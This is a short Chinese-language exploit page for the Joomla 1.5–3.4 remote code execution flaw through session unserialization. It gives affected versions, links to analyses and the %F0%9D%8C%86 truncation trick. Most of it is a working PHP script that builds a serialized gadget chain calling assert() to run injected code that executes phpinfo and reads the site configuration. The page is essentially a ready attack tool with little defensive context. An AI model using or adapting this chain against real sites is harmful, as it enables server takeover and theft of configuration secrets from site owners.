 # Joomla远程代码执行漏洞
## 影响范围
* `Joomla 1.5 to 3.4 all version`
## 分析
* [https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html](https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html)
* PHP Session 序列化及反序列化处理器设置使用不当带来的安全隐患[https://github.com/80vul/phpcodz/blob/master/research/pch-013.md](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)
### 利用(%F0%9D%8C%86)字符
## EXP
```php
<?php
//header("Content-Type: text/plain");
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a); 
```
## POC
由上述代码生成
